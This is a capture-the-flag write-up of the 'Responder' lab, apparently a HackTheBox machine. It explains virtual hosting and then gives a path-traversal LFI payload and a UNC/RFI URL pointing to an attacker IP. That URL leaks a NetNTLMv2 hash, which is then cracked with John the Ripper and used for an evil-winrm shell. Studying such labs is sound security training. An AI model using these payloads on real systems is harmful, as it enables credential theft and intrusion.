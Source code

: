 This is the responder ctf from tier 1 starting point and it's difficulty is very easy.

task1:We try visiting the web service using the ip address but are redirected  to another domain. which is "unika.htb".
![alt text](images/responder_1.png)

task 2: On using curl -I we can see info about the as X-powered by: php
![alt text](images/responder_2.png)

Now when we try to open the url in the browser we get something like this...
![alt text](images/responder_6.png)
This happens because of virtual hosting. The connected server may be hosting multiple websites that need to be accessed using their correct hostname.

By default, when we access a website using an IP address, our HTTP request does not include the expected hostname in the Host header. Since the hostname (unika.htb) isn't available in our /etc/hosts file or any nearby DNS server, the server doesn't know which website to serve, leading to redirection or an error.

To fix this, we manually add an entry in /etc/hosts specifying that requests to that IP should be associated with "unika.htb". This ensures that when a request is sent to the server, it includes the correct Host header (unika.htb), allowing us to connect to the intended website.

So, first add the host name in the file.
use nano /etc/hosts to open the file,
![alt text](images/responder_4.png)

Now enter the host name into it.

![alt text](images/responder_5.png)

On reloading the site now we get...
![alt text](images/responder_3.png)

We use the page URL parameter to load different language versions of the webpage (task 3).
Just add ?page=german.html to the URL

![alt text](images/responder_7.png)
and now we get the page in German

![alt text](images/responder_8.png)

task 4: the option which exploits a LFI(Local File Include) vulnerability is the third option -> "../../../../../../../../windows/system32/drivers/etc/hosts"
As this option tries to traverse backwards and then traverse to a system file "hosts".
![alt text](images/responder_9.png)

task 5: "//10.10.14.6/somefile" is a RFI (remote file inclusion) vulnerability. This allows us to load some file into the server file system. Such files could be malicious scripts which would cause harm to the server.

task 6: NTLM is New Technology LAN Manager, it is a protocol that authenticates users and computers on a network.

task 7:
Responder uses the -I flag to specify network interface.

task 8:
The tool is John the ripper. We use this to crack passwords.

task 9:
First we get the ip using 
![alt text](images/responder_10.png)
We then run our responder tool
![alt text](images/responder_12.png)
now we use this ip in the URL http://unika.htb/?page=//< ip >>/somefile
![alt text](images/responder_11.png)
When we return to the terminal running responder we see...
![alt text](images/responder_13.png)
NetNTLMv hash is captured.Save that hash to a file.
![alt text](images/responder_14.png)

Now we need to crack the hash for which we use John the ripper.
![alt text](images/responder_15.png)
We use the rockyou.txt file which containts commonly used passwords.
Hence we got the admin password as badminton.

task10: By a nmap scan we find the port running tcp
![alt text](images/responder_16.png)

To access the windows machine(server) remotely we use evil-winrm which helps to access it via window remote management (winrm). It provides a remote shell access to the windows machine.
![alt text](images/responder_17.png)
Now we navigate through the folders searching for flag.txt
We will find it in user/mike/Dektop
use "type flag.txt" to get the flag content.
![alt text](images/responder_18.png)